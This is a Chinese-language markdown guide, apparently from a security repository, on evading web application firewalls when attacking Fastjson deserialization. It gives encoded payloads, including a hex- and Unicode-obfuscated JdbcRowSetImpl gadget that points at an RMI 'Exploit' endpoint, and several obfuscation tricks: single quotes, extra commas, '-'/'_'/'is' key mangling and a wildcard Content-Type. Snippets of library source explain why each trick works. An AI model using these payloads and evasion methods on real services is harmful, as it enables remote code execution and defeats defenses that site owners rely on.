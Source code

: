 ## bypass

### Unicode/Hex编码绕过

**可以结合tools/.py生成payload**

在`JSONLexerBase.scanSymbol`中对编码进行了处理

```java
case'u':
        char c1=this.next();
        char c2=this.next();
        char c3=this.next();
        char c4=this.next();
        int val=Integer.parseInt(new String(new char[]{c1,c2,c3,c4}),16);
        hash=31*hash+val;
        this.putChar((char)val);
        break;
case'x':
        char x1=this.ch=this.next();
        char x2=this.ch=this.next();
        int x_val=digits[x1]*16+digits[x2];
        char x_char=(char)x_val;
        hash=31*hash+x_char;
        this.putChar(x_char);

```

#### 单独`\u004c` Unicode

#### 单独`\x4c` Hex

#### 混合绕过

```java
{"\u0040\u0074\u0079\u0070\u0065":"\x63\x6f\x6d\x2e\x73\x75\x6e\x2e\x72\x6f\x77\x73\x65\x74\x2e\x4a\x64\x62\x63\x52\x6f\x77\x53\x65\x74\x49\x6d\x70\x6c","\u0064\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\u004e\u0061\u006d\u0065":"rmi://localhost:1099/Exploit","\x61\x75\x74\x6f\x43\x6f\x6d\x6d\x69\x74":true}
```

### 使用Feature词法分析器绕过

#### `Feature.AllowSingleQuotes`

决定parser是否允许单引号来包住属性名称和字符串值

那么可以**使用单引号替代双引号**，配合编码或者其他方式进行混淆绕过waf语义分析

```json
{
    'name':"aa"
}
```

#### `Feature.AllowArbitraryCommas`

`AllowArbitraryCommas`特性允许多重逗号。那么可以在多个属性之间引入多个`逗号,`，进行混淆

```json
{
    ,,,,,,,,"name":"a",,,,,,,,,,,,
}
```

#### `Feature.DisableFieldSmartMatch`智能匹配绕过

如果没有选择这个特性，即使JavaBean中的字段和JSON中的key并不完全匹配，在一定程度上还是可以正常解析的

- **使用`-`和`_`进行混淆**

  FastJSON会对JSON中没有成功映射JavaBean的key做智能匹配，在反序列的过程中会忽略大小写和下划线，自动会把下划线命名的Json字符串转化到驼峰式命名的Java对象字段中。
    查看**1.2.24版本**，部分关键部分代码如下，主要是在`JavaBeanDeserializer.smartMatch`方法：

  ```java
  if (fieldDeserializer == null)
      {
        snakeOrkebab = false;
        key2 = null;
        char ch;
        for (i = 0; i < key.length(); i++)
        {
          ch = key.charAt(i);
          if (ch == '_')
          {
            snakeOrkebab = true;
            key2 = key.replaceAll("_", "");
            break;
          }
          if (ch == '-')
          {
            snakeOrkebab = true;
            key2 = key.replaceAll("-", "");
            break;
          }
  }
  ```

  也就是说可以分别使用`-`和`_`来对payload进行混淆

  ```json
  {"n-a-m-e"}
  {"n_a_m_e"}
  ```

- **使用is开头的key字段**
  除此之外，Fastjson在做智能匹配时，如果key以`is`开头,则忽略`is`开头,相关代码如下:

  ```java
  int pos = Arrays.binarySearch(this.smartMatchHashArray, smartKeyHash);
  if ((pos < 0) && (key.startsWith("is")))
  {
  		smartKeyHash = TypeUtils.fnv1a_64_lower(key.substring(2));
  		pos = Arrays.binarySearch(this.smartMatchHashArray, smartKeyHash);
  }
  ```

### 修改 Content-Type

   Content-Type（MediaType），即是Internet Media Type，互联网媒体类型，也叫做MIME类型。在HTTP协议消息头中，使用Content-Type来表示请求和响应中的媒体类型信息。它用来告诉服务端如何处理请求的数据，以及告诉客户端（一般是浏览器）如何解析响应的数据，比如显示图片，解析并展示html等等。常见的有：

  - application/x-www-form-urlencoded：最常见POST提交数据的方式。
  - multipart/form-data：文件上传的数据提交方式。
  - application/xml：XML数据提交方式。
  - application/json：作为请求头告诉服务端消息主体是序列化的JSON字符串。

    某些Waf考虑到解析效率的问题，会根据`Content-Type`的内容进行针对性的拦截分析，例如值为`appliction/xml`时会进行XXE的检查，那么可以尝试将Content-Type设置为通配符“`*/*`来绕过相关的检查：

  

  同理对`application/json`Content-Type的请求，也可以尝试将Content-Type设置为通配符“`*/*`来绕过相关的检查：

  

## 参考

  [浅谈fastjson waf Bypass思路-SecIN (sec-in.com)](https://www.sec-in.com/article/950)